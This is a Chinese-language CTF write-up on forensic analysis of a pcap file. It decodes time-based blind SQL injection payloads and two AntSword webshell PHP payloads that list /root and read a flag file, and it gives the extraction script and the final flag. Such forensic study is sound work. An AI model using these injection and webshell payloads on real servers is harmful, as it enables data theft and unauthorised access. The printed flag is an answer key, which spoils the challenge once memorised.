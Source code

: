 # sqlinject

## 0x00 题面

该题为流量题, [题目链接](D:\ctf\mise\sqlinject\ctf.pcapng)

## 0x01 思路

粗略看一遍数据包, 发现是一题审计 SQL 注入+webshell 流量的题目. 逐一追踪数据流查看:
![](vx_images/5527111117363.png)
![](vx_images/2127514137529.png)

发现了 sql 注入的 payload, 解码后如下所示:

```
1234' and if(ascii(substr((select group_concat(hakcer) from hacker),1,1))=97,sleep(3),1) and '&p=123
1234' and if(ascii(substr((select group_concat(hakcer) from hacker),1,1))=98,sleep(3),1) and '&p=123
```

显然, 这是一个基于时间的注入, 攻击者从 hack 数据表中读取数据, 注入成功后服务器会延时 3s, 因此我们可以根据时间戳判断攻击者注入的得到的数据:
![](vx_images/3442220130198.png)
在上图中, 就是注入成功的例子, 攻击者获取到了 hack 表中字段的第一个字符的 ascii 码为`98`, 即字符`b`

为了能批量寻找注入成功的字符, 我们使用`tshark`提取数据:

```
tshark -r ctf.pcapng -T fields -e frame.time_relative -e urlencoded-form.value | tr -s '\n'  | grep select > res
```

提取出的数据如下:
![](vx_images/2804235126753.png)
我们只需要判断当时间戳与下个时间戳间隔大于 3s 时, 这个数据包的 payload 就注入成功了, 然后记录此 payload 中的字符 ascii 码即可, 攻击者注入了两个表, `hakcer`和`hint`, 编写如下脚本提取数据:

```python
with open('res', 'r') as f:
    content = f.readlines()
    hacker = ""
    hint = ""
    # content = content.replace('\x00', '')
    for i in range(len(content) - 1):
        # print(content[i].split(' ')[0])
        payload = content[i].split('\x09')[1]
        if float(content[i+1].split('\x09')[0]) - float(content[i].split('\x09')[0]) >= 3:
            idx1 = payload.find("))=") + 3
            idx2 = payload.find(",sleep")
            if 'hakcer' in payload:
                hacker += chr(int(payload[idx1:idx2]))
            else:
                hint += chr(int(payload[idx1:idx2]))

print(hacker)
print(hint)
```

![](vx_images/3793342142507.png)

发现 hacker 表里, 为`backd00r.php`, 怀疑是 webshell, hint 表中只有一部分 flag, 于是在数据包中搜索`backd00r.php`, 发现了如下数据流:
![](vx_images/1438446160387.png)
显然, 这是蚁剑马的 webshell 特征, 复制解码后查看如下:

```php
@ini_set("display_errors", "0");
@set_time_limit(0);
function asenc($out)
{
    return $out;
};
function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "feabf8f5a3";
    echo @asenc($output);
    echo "402a78405ac";
}
ob_start();
try {
    $D = base64_decode(substr($_POST["bd6d05dc659984"], 2));
    $F = @opendir($D);
    if ($F == NULL) {
        echo ("ERROR:// Path Not Found Or No Permission!");
    } else {
        $M = NULL;
        $L = NULL;
        while ($N = @readdir($F)) {
            $P = $D . $N;
            $T = @date("Y-m-d H:i:s", @filemtime($P));
            @$E = substr(base_convert(@fileperms($P), 10, 8), -4);
            $R = "	" . $T . "	" . @filesize($P) . "	" . $E . "
    ";
            if (@is_dir($P)) $M .= $N . "/" . $R;
            else $L .= $N . $R;
        }
        echo $M . $L;
        @closedir($F);
    };
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
};
asoutput();
die();
//&bd6d05dc659984=kNL3Jvb3Qv
```

发现其功能为先 base64 解码第二位开始的 POST 参数`bd6d05dc659984`: `L3Jvb3Qv`, 解码结果为`/root`, 再执行`readdir`. 最终效果为读取`/root`目录下的文件.

依次审阅数据包, 发现如下信息:
![](vx_images/90308167991.png)
格式化代码之后如下:

```php
@ini_set("display_errors", "0");
@set_time_limit(0);
function asenc($out)
{
    return $out;
};
function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "f359f";
    echo @asenc($output);
    echo "b616dec";
}
ob_start();
try {
    $F = base64_decode(substr($_POST["bd6d05dc659984"], 2));
    $P = @fopen($F, "r");
    echo (@fread($P, filesize($F) ? filesize($F) : 4096));
    @fclose($P);;
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
};
asoutput();
die();//&bd6d05dc659984=ItL2hvbWUvaGFuemhlL0YxYWdnZw==
```

以上代码的作用是读取`/home/hanzhe/F1aggg`文件, 怀疑里面有 flag, 于是将返回包中的数据进行 base64 解码:

```
SlJMVktNQ09OSlJYSVRTVUlGNUU0MkpRR05NWFUzREpKUktFU05DT0dKTVRFVDJFS0UyRlVSQ1dOVkdUR01CNQ==
|
↓base64 decode
JRLVKMCONJRXITSUIF5E42JQGNMXU3DJJRKESNCOGJMTET2EKE2FURCWNVGTGMB5
|
↓base32 decode
LWU0NjctNTAzNi03YzliLTI4N2Y2ODQ4ZDVmM30=
|
↓base64 decode
-e467-5036-7c9b-287f6848d5f3}
```

和通过 sql 注入得到数据进行拼接, 获取到 flag:

```
flag{a3eb0ff8-e467-5036-7c9b-287f6848d5f3}
```
